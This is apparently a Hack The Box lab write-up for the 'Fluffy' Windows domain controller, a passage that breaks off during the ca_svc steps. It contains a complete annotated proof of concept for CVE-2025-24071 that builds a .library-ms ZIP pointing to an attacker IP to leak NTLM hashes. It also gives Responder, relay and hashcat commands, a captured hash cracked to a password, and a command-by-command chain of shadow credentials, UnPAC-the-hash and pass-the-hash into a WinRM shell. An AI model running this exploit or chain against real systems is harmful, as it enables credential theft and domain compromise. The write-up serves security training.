

# Fluffy

Tags: CVE-2025-24071, CertipyAD, ESC16, GenericAll-Abuse, GenericWrite-Abuse, PyWhisker, Targeted-Kerberoast, UPN-Manipulation, UnPAC-the-Hash, bloodyAD
Difficulty: Easy
Target OS: Windows

| IP Address | Hostname |
| --- | --- |
| 10.129.232.88 | fluffy.htb, DC01.fluffy.htb |

| Credentials | Creds/Hash | Flags |
| --- | --- | --- |
| j.fleischman | J0elTHEM4n1990! |  |
| p.agila | prometheusx-303 |  |
| winrm_svc | 33bd09dcd697600edf6b3a7af4875767 | user.txt |
| ca_svc | ca0f4f9e9eb8a092addf53bb03fc98c8 |  |
| administrator | 8da83a3fa618b6e3a00e93f676c92a6e | root.txt |

<aside>
⚠️

**Kerberos Clock Skew — HTB Specific Issue**

HTB machines run in **UTC**. If your Kali VM is set to **IST (UTC+5:30)**, you have a ~7 hour offset. Kerberos strictly requires the clock difference between client and DC to be **under 5 minutes** — anything over causes `KRB_AP_ERR_SKEW` and the operation fails.

**Quick fix — sync before every Kerberos operation:**

`sudo ntpdate 10.129.232.88`

</aside>

# Enumeration

## Nmap

```bash
┌──(parallels㉿kali-linux-2025-2)-[~/Desktop/CPTS-Track/Fluffy]
└─$ nmap -sCV 10.129.232.88 -T4 -p 0-10000 -oN fluffy.nmap
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-24 19:00 +0530
Nmap scan report for 10.129.232.88
Host is up (0.19s latency).
Not shown: 9989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-05-24 20:32:04Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.fluffy.htb, DNS:fluffy.htb, DNS:FLUFFY
| Not valid before: 2026-04-30T16:09:59
|_Not valid after:  2106-04-30T16:09:59
|_ssl-date: 2026-05-24T20:33:31+00:00; +7h00m00s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-05-24T20:33:29+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.fluffy.htb, DNS:fluffy.htb, DNS:FLUFFY
| Not valid before: 2026-04-30T16:09:59
|_Not valid after:  2106-04-30T16:09:59
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-05-24T20:33:31+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.fluffy.htb, DNS:fluffy.htb, DNS:FLUFFY
| Not valid before: 2026-04-30T16:09:59
|_Not valid after:  2106-04-30T16:09:59
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-05-24T20:33:29+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.fluffy.htb, DNS:fluffy.htb, DNS:FLUFFY
| Not valid before: 2026-04-30T16:09:59
|_Not valid after:  2106-04-30T16:09:59
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-05-24T20:32:52
|_  start_date: N/A
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 204.30 seconds
```

## Service Enumeration

```bash
#SMB
┌──(parallels㉿kali-linux-2025-2)-[~/Desktop/CPTS-Track/Fluffy]
└─$ nxc smb 10.129.232.88 -u 'j.fleischman' -p 'J0elTHEM4n1990!' -d fluffy.htb --shares
SMB         10.129.232.88   445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.232.88   445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 
SMB         10.129.232.88   445    DC01             [*] Enumerated shares
SMB         10.129.232.88   445    DC01             Share           Permissions     Remark
SMB         10.129.232.88   445    DC01             -----           -----------     ------
SMB         10.129.232.88   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.232.88   445    DC01             C$                              Default share
SMB         10.129.232.88   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.232.88   445    DC01             IT              READ,WRITE      
SMB         10.129.232.88   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.232.88   445    DC01             SYSVOL          READ            Logon server share 
```

Look into IT share as it has `READ/WRITE` permissions for **j.fleischman**

```bash
┌──(parallels㉿kali-linux-2025-2)-[~/Desktop/CPTS-Track/Fluffy]
└─$ smbclient \\\\10.129.232.88\\\IT -U j.fleischman 
Password for [WORKGROUP\j.fleischman]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon May 25 02:15:25 2026
  ..                                  D        0  Mon May 25 02:15:25 2026
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 20:38:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 20:34:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 20:38:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 20:33:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 20:01:07 2025
```



### CVE-2025-24071 — Windows File Explorer NTLM Hash Leak

#### Overview

| Property | Detail |
| --- | --- |
| **Affected** | Windows Explorer (Shell) — Windows 10/11, Server 2025 and earlier |
| **Type** | NTLM Credential Leak (Hash Capture) |
| **CVSS** | 6.5 Medium |
| **Auth Required** | No — victim just needs to open a folder |
| **Patched** | March 2025 Patch Tuesday |

---

#### Root Cause

Windows Explorer **automatically parses `.library-ms` files** (XML-based library definition files) when a folder containing one is opened or even just extracted from a ZIP. During parsing, Explorer silently resolves any `<url>` tag pointing to a UNC path (`\\attacker\share`), triggering an **automatic NTLM authentication attempt** — leaking the NTLMv2 hash **with zero user interaction beyond opening the folder**.

---

#### Exploit Chain

```bash
Attacker crafts malicious .library-ms file (XML with UNC path)
            ↓
Packs it into a .zip archive
            ↓
Victim downloads and extracts (or just opens) the ZIP
            ↓
Windows Explorer auto-parses .library-ms during folder render
            ↓
Explorer resolves \\<attacker-ip>\share → triggers NTLM auth
            ↓
Attacker's Responder captures NTLMv2 hash
            ↓
Offline crack (hashcat) OR relay attack (ntlmrelayx)
```

---

#### Annotated PoC Script

```python
#!/usr/bin/env python3
"""
CVE-2025-24071 - Windows Explorer NTLM Hash Leak
Educational PoC for HTB / CPTS notes

HOW IT WORKS:
  1. Creates a .library-ms file — a legitimate Windows XML format
     used to define shell libraries (like "Music", "Documents")
  2. Embeds a UNC path in the <url> tag pointing to our listener
  3. Zips it up — ZIP extraction triggers Explorer parsing automatically
  4. When victim extracts/opens, Explorer resolves the UNC path
  5. Windows sends NTLMv2 hash to our Responder listener

CAPTURE SIDE: Run Responder before delivering the file
  sudo responder -I tun0 -wv
"""

import zipfile
import argparse
import os

# ─────────────────────────────────────────────────
# STEP 1: Build the malicious .library-ms XML
# ─────────────────────────────────────────────────
def create_library_ms(attacker_ip: str) -> str:
    """
    .library-ms is a standard Windows Shell Library XML format.
    Explorer parses it automatically to build the folder view.

    The <url> tag inside <searchConnectorDescription> tells Explorer
    where to look for content. When it's a UNC path, Explorer
    immediately tries to authenticate → NTLM hash leak.

    The victim never sees a prompt. No clicks needed beyond
    opening the folder.
    """
    payload = f"""<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">

  <!-- Display name shown in Explorer — looks legitimate -->
  <name>Documents</name>
  <version>6</version>

  <!-- 
    EXPLOITATION POINT:
    iconReference pointing to UNC triggers an SMB connection.
    Explorer tries to load the icon from \\attacker\share
    → Windows initiates NTLM auth automatically
    → NTLMv2 hash is sent to attacker's Responder
  -->
  <iconReference>\\\\{attacker_ip}\\share\\icon.ico</iconReference>

  <templateInfo>
    <folderType>{{FD684A43-8444-4A35-8025-B9EB6AA43D2B}}</folderType>
  </templateInfo>

  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <isDefaultSaveLocation>true</isDefaultSaveLocation>
      <isSupported>false</isSupported>

      <simpleLocation>
        <!--
          SECONDARY TRIGGER:
          This <url> is also resolved by Explorer during parsing.
          Dual UNC references increase reliability of hash capture.
        -->
        <url>\\\\{attacker_ip}\\share</url>
      </simpleLocation>

    </searchConnectorDescription>
  </searchConnectorDescriptionList>

</libraryDescription>"""
    return payload

# ─────────────────────────────────────────────────
# STEP 2: Package into ZIP
# ─────────────────────────────────────────────────
def create_zip(library_content: str, output_file: str):
    """
    Why ZIP?
    - Windows Explorer parses .library-ms files inside ZIPs
      during extraction preview — trigger fires on extract
    - Delivery via email/share looks like a normal archive
    - The .library-ms alone also works if dropped directly,
      but ZIP is more reliable for delivery scenarios
    """
    library_filename = "Documents.library-ms"

    with zipfile.ZipFile(output_file, 'w', zipfile.ZIP_DEFLATED) as zf:
        # Write the malicious XML into the zip as a .library-ms file
        zf.writestr(library_filename, library_content)

    print(f"[+] Created: {output_file}")
    print(f"    └─ Contains: {library_filename}")

# ─────────────────────────────────────────────────
# STEP 3: Listener reminder
# ─────────────────────────────────────────────────
def print_listener_instructions(attacker_ip: str, lport: int):
    """
    Responder captures the NTLMv2 challenge/response hash
    when Explorer connects to \\attacker_ip\share.

    The hash format captured will be NTLMv2:
    username::domain:challenge:response:blob

    This can be:
      a) Cracked offline with hashcat (mode 5600)
      b) Relayed with ntlmrelayx if SMB signing is disabled
    """
    print("\n[*] Start your listener BEFORE delivering the file:\n")
    print(f"    # Capture hash with Responder")
    print(f"    sudo responder -I tun0 -wv\n")
    print(f"    # OR relay if SMB signing disabled on target")
    print(f"    sudo ntlmrelayx.py -t smb://<target-ip> -smb2support\n")
    print(f"[*] Crack captured hash:")
    print(f"    hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt\n")
    print(f"[*] Deliver '{output_file}' to victim via:")
    print(f"    - HTB file share / upload functionality")
    print(f"    - Email attachment")
    print(f"    - SMB share drop")

# ─────────────────────────────────────────────────
# MAIN
# ─────────────────────────────────────────────────
if __name__ == "__main__":
    parser = argparse.ArgumentParser(
        description="CVE-2025-24071 PoC — NTLM Hash Leak via .library-ms"
    )
    parser.add_argument("--lhost", required=True, help="Your attacker IP (Responder listener)")
    parser.add_argument("--lport", default=445, type=int, help="SMB port (default: 445)")
    parser.add_argument("--output", default="documents.zip", help="Output ZIP filename")
    args = parser.parse_args()

    output_file = args.output

    print(f"[*] CVE-2025-24071 — NTLM Hash Leak PoC")
    print(f"[*] Attacker IP : {args.lhost}")
    print(f"[*] Output file : {output_file}\n")

    # Build payload
    library_content = create_library_ms(args.lhost)
    create_zip(library_content, output_file)
    print_listener_instructions(args.lhost, args.lport)
```

---

#### Usage

```python
# Generate the malicious zip
python3 cve-2025-24071.py --lhost 10.10.17.35 --output docs.zip

# Start Responder first
sudo responder -I tun0 -wv

# Deliver docs.zip to victim → extract → hash captured automatically
```


```bash
[*] Version: Responder 3.2.2.0
[*] Author: Laurent Gaffie, <lgaffie@secorizon.com>

[+] Listening for events...                                                                                                                 

[SMB] NTLMv2-SSP Client   : 10.129.232.88
[SMB] NTLMv2-SSP Username : FLUFFY\p.agila
[SMB] NTLMv2-SSP Hash     : p.agila::FLUFFY:a51230fba5f2d41e:75DEEEB2B56D57F8717C9012BACFCAE9:010100000000000080C794FAB3EBDC0104C42EB079ED4A3E00000000020008004F0036004700300001001E00570049004E002D005600390033005A00440050005100330053005300580004003400570049004E002D005600390033005A0044005000510033005300530058002E004F003600470030002E004C004F00430041004C00030014004F003600470030002E004C004F00430041004C00050014004F003600470030002E004C004F00430041004C000700080080C794FAB3EBDC01060004000200000008003000300000000000000001000000002000006247C0E0E5234675C146C1C4427EED85816D191002C24554464CA71F316F68D10A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E00320031000000000000000000   
```

```bash
┌──(pr0ph3c㉿pr0ph3c)-[~]
└─$ hashcat -m 5600 -a 0 p.aglia-fluffy.txt /usr/share/wordlists/rockyou.txt --force
hashcat (v7.1.2) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-haswell-Intel(R) Core(TM) i7-10750H CPU @ 2.60GHz, 2922/5845 MB (1024 MB allocatable), 12MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 515 MB (6768 MB free)

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

P.AGILA::FLUFFY:a51230fba5f2d41e:75deeeb2b56d57f8717c9012bacfcae9:010100000000000080c794fab3ebdc0104c42eb079ed4a3e00000000020008004f0036004700300001001e00570049004e002d005600390033005a00440050005100330053005300580004003400570049004e002d005600390033005a0044005000510033005300530058002e004f003600470030002e004c004f00430041004c00030014004f003600470030002e004c004f00430041004c00050014004f003600470030002e004c004f00430041004c000700080080c794fab3ebdc01060004000200000008003000300000000000000001000000002000006247c0e0e5234675c146c1c4427eed85816d191002c24554464ca71f316f68d10a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310036002e00320031000000000000000000:**prometheusx-303**

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: P.AGILA::FLUFFY:a51230fba5f2d41e:75deeeb2b56d57f871...000000
Time.Started.....: Sun May 24 19:43:36 2026, (2 secs)
Time.Estimated...: Sun May 24 19:43:38 2026, (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:  2810.5 kH/s (2.21ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4521984/14344385 (31.52%)
Rejected.........: 0/4521984 (0.00%)
Restore.Point....: 4509696/14344385 (31.44%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: psp0x4 -> prison201068
Hardware.Mon.#01.: Util: 52%
```

## Bloodhound

```bash
┌──(parallels㉿kali-linux-2025-2)-[~/Desktop/CPTS-Track/Fluffy]
└─$ bloodhound-python -u p.agila -p 'prometheusx-303' -d fluffy.htb -ns 10.129.232.88  -c ALL 
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: fluffy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Testing resolved hostname connectivity dead:beef::d628:98b0:f602:21eb
INFO: Trying LDAP connection to dead:beef::d628:98b0:f602:21eb
INFO: Testing resolved hostname connectivity dead:beef::df
INFO: Trying LDAP connection to dead:beef::df
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Testing resolved hostname connectivity dead:beef::d628:98b0:f602:21eb
INFO: Trying LDAP connection to dead:beef::d628:98b0:f602:21eb
INFO: Testing resolved hostname connectivity dead:beef::df
INFO: Trying LDAP connection to dead:beef::df
INFO: Found 10 users
INFO: Found 54 groups
INFO: Found 3 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.fluffy.htb
INFO: Done in 00M 55S
```


# Initial FootHold

Attack Flow

```bash
P.AGILA@FLUFFY.HTB
    │
    │ MemberOf
    ▼
SERVICE ACCOUNT MANAGERS (Group)
    │
    │ GenericAll
    ▼
SERVICE ACCOUNTS@FLUFFY.HTB (Group)
    │
    │ GenericWrite → CA_SVC
    │ GenericWrite → LDAP_SVC
    │ GenericWrite → WINRM_SVC  ← target
```

Step 1 — Add P.AGILA to Service Accounts Group

> `P.AGILA` is a member of `SERVICE ACCOUNT MANAGERS` which has `GenericAll` over `SERVICE ACCOUNTS`. GenericAll allows us to add any principal into that group, inheriting its `GenericWrite` permissions over service accounts.
> 

```bash
#Adding p.agila -> Service Accounts

┌──(parallels㉿kali-linux-2025-2)-[~/Desktop/CPTS-Track/Fluffy]
└─$ bloodyAD -u p.agila -p 'prometheusx-303' -d fluffy.htb --host 10.129.232.88 add groupMember "Service Accounts" "P.AGILA"
[+] P.AGILA added to Service Accounts
```

Step 2 — Write Shadow Credential to WINRM_SVC

> `GenericWrite` allows us to modify the `msDS-KeyCredentialLink` attribute of `winrm_svc`. We abuse this by writing a self-signed certificate as a trusted key credential — this lets us authenticate as `winrm_svc` using PKINIT (certificate-based Kerberos) without knowing the account's password.
> 

```bash
#Shadow Credentials attack on winrm_svc via GenericWrite

┌──(parallels㉿kali-linux-2025-2)-[~/Desktop/Tools/pywhisker/pywhisker]
└─$ python3 pywhisker.py -d "fluffy.htb" -u "p.agila" -p "prometheusx-303" --target "winrm_svc" --action "add" --dc-ip 10.129.232.88
[*] Searching for the target account
[*] Target user found: CN=winrm service,CN=Users,DC=fluffy,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 353840ad-efad-bed2-2eb2-f0ccbf8dd3e7
[*] Updating the msDS-KeyCredentialLink attribute of winrm_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: QQqprM7a.pfx
/home/parallels/Desktop/Tools/pywhisker/pywhisker/pywhisker.py:54: CryptographyDeprecationWarning: Parsed a serial number which wasn't positive (i.e., it was negative or zero), which is disallowed by RFC 5280. Loading this certificate will cause an exception in a future release of cryptography.
  cert_obj = x509.load_pem_x509_certificate(pem_cert_data, default_backend())
[+] PFX exportiert nach: QQqprM7a.pfx
[i] Passwort für PFX: SMhKP7sMyQ12afvDQZFK
[+] Saved PFX (#PKCS12) certificate & key at path: QQqprM7a.pfx
[*] Must be used with password: SMhKP7sMyQ12afvDQZFK
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

Step 3 — Obtain TGT via PKINIT

> Using the generated certificate, we request a Kerberos TGT from the DC using PKINIT (Public Key cryptography for Kerberos). The DC trusts our cert because we wrote it to `winrm_svc`'s `msDS-KeyCredentialLink` in the previous step. The AS-REP encryption key returned is needed to later extract the NT hash.
> 

```bash
#Sync the cloch and use gettgetpkinit 
sudo ntpdate <IP>

┌──(parallels㉿kali-linux-2025-2)-[~/Desktop/Tools/PKINITtools]
└─$ python3 gettgtpkinit.py -cert-pfx ~/Desktop/CPTS-Track/Fluffy/QQqprM7a.pfx -pfx-pass SMhKP7sMyQ12afvDQZFK fluffy.htb/winrm_svc winrm_svc.ccache -dc-ip 10.129.232.88
2026-05-25 03:35:17,499 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2026-05-25 03:35:17,508 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2026-05-25 03:35:30,261 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2026-05-25 03:35:30,261 minikerberos INFO     dcdd1b849c7765435138f2612e3b61a9465fab97475d238e86f76eb3f6ef1860
INFO:minikerberos:dcdd1b849c7765435138f2612e3b61a9465fab97475d238e86f76eb3f6ef1860
2026-05-25 03:35:30,262 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

Step 4 — Extract NT Hash (UnPAC the Hash)

> With a valid TGT obtained via PKINIT, we can request a service ticket to ourselves with a PAC (Privilege Attribute Certificate). The PAC contains the NT hash encrypted with the AS-REP key — `getnthash.py` decrypts it to recover the plaintext NT hash. This technique is called **UnPAC the Hash**.
> 

```bash
┌──(parallels㉿kali-linux-2025-2)-[~/Desktop/Tools/PKINITtools]
└─$ export KRB5CCNAME=../../CPTS-Track/Fluffy/winrm_svc.ccache 
                                                                                                                                            
┌──(parallels㉿kali-linux-2025-2)-[~/Desktop/Tools/PKINITtools]
└─$ python3 getnthash.py -key dcdd1b849c7765435138f2612e3b61a9465fab97475d238e86f76eb3f6ef1860 fluffy.htb/winrm_svc -dc-ip 10.129.232.88
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
                                                                                                                                            
┌──(parallels㉿kali-linux-2025-2)-[~/Desktop/Tools/PKINITtools]
└─$ sudo ntpdate 10.129.232.88     
2026-05-25 03:39:49.459569 (+0530) +25200.143705 +/- 0.115627 10.129.232.88 s1 no-leap
CLOCK: time stepped by 25200.143705
                                                                                                                                            
┌──(parallels㉿kali-linux-2025-2)-[~/Desktop/Tools/PKINITtools]
└─$ python3 getnthash.py -key dcdd1b849c7765435138f2612e3b61a9465fab97475d238e86f76eb3f6ef1860 fluffy.htb/winrm_svc -dc-ip 10.129.232.88
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
33bd09dcd697600edf6b3a7af4875767
```

> **Note:** If you get `KRB_AP_ERR_SKEW` run `sudo ntpdate <DC-IP>` again — clock drift resets between commands on HTB.
> 

Step 5 — WinRM Shell via Pass-the-Hash

> With the NT hash recovered we authenticate to WinRM using Pass-the-Hash — no password cracking required. Evil-WinRM handles the NTLM auth natively with the `-H` flag.
> 

```bash
┌──(parallels㉿kali-linux-2025-2)-[~/Desktop/CPTS-Track/Fluffy]
└─$ sudo ntpdate 10.129.232.88
2026-05-25 03:42:27.046081 (+0530) +25200.129128 +/- 0.113464 10.129.232.88 s1 no-leap
CLOCK: time stepped by 25200.129128
                                                                                                                                            
┌──(parallels㉿kali-linux-2025-2)-[~/Desktop/CPTS-Track/Fluffy]
└─$ evil-winrm -i 10.129.232.88 -u winrm_svc -H 33bd09dcd697600edf6b3a7af4875767
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> ls
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> ls

    Directory: C:\Users\winrm_svc\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        5/24/2026   1:13 PM             34 user.txt

*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> type user.txt
6646ada4d33783a76d8f3cce3ff7dea9
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> 
```

### Attack Chain Summary

| Step | Technique | Why It Works |
| --- | --- | --- |
| 1 | GenericAll → Add to Group | Full control over group membership |
| 2 | GenericWrite → Shadow Credentials | Can modify `msDS-KeyCredentialLink` |
| 3 | PKINIT → TGT | DC trusts our injected certificate |
| 4 | UnPAC the Hash | PKINIT TGT leaks NT hash via PAC |
| 5 | Pass-the-Hash → WinRM | NT hash = valid auth without password |


```bash
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> .\Certify.exe find /vulnerable

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=fluffy,DC=htb'

[*] Listing info about the Enterprise CA 'fluffy-DC01-CA'

    Enterprise CA Name            : fluffy-DC01-CA
    DNS Hostname                  : DC01.fluffy.htb
    FullName                      : DC01.fluffy.htb\fluffy-DC01-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=fluffy-DC01-CA, DC=fluffy, DC=htb
    Cert Thumbprint               : 5483C92DD3A4E821738225B0395EAE87DF51F70B
    Cert Serial                   : 3150FA7E60CE28AD4DAE41A1B61D8874
    Cert Start Date               : 4/17/2025 9:00:16 AM
    Cert End Date                 : 4/17/3024 9:12:16 AM
    Cert Chain                    : CN=fluffy-DC01-CA,DC=fluffy,DC=htb
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544

      Access Rights                                     Principal

      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
      Allow  ManageCA, ManageCertificates, Read, Enroll BUILTIN\Administrators        S-1-5-32-544
      Allow  ManageCA, ManageCertificates               FLUFFY\Domain Admins          S-1-5-21-497550768-2797716248-2627064577-512
      Allow  Enroll                                     FLUFFY\Cert Publishers        S-1-5-21-497550768-2797716248-2627064577-517
      Allow  ManageCA, ManageCertificates               FLUFFY\Enterprise Admins      S-1-5-21-497550768-2797716248-2627064577-519
    Enrollment Agent Restrictions : None

[+] No Vulnerable Certificates Templates found!

Certify completed in 00:00:12.5918687
```

<aside>
💡

**Why Certify.exe Shows No Vulnerable Templates**

`Certify.exe find /vulnerable` returned `No Vulnerable Certificate Templates found` — this is expected. Certify is a Windows tool that checks for **template-level** misconfigurations (ESC1–ESC4). **ESC16 is a CA-level misconfiguration** (disabled security extension OID globally) — Certify has no detection logic for it.

</aside>

Obtain ca_svc NT Hash (Shadow Credentials)

GenericWrite over ca_svc (inherited via Service Accounts group membership) allows us to perform the same Shadow Credentials attack we used for winrm_svc. `ca_svc` is a member of Cert Publishers - meaning it has enrollment rights on the CA, making its hash critical for the exploitation chain.

```bash
#Step 1

bloodyAD -u p.agila -p 'prometheusx-303' -d fluffy.htb --host 10.129.232.88 add groupMember "Service Accounts" "P.AGILA"

#Step 2

python3 pywhisker.py -d "fluffy.htb" -u "p.agila" -p "prometheusx-303" --target "ca_svc" --action "add" --dc-ip 10.129.232.88

#Step 3

sudo ntpdate 10.129.232.88

python3 gettgtpkinit.py -cert-pfx ~/Desktop/CPTS-Track/Fluffy/ca_svc/pxdFyGrL.pfx -pfx-pass aWOulgjo3R7JUwySTAje fluffy.htb/ca_svc ca_svc.ccache -dc-ip 10.129.232.88

#Step 4

export KRB5CCNAME=ca_svc.ccache

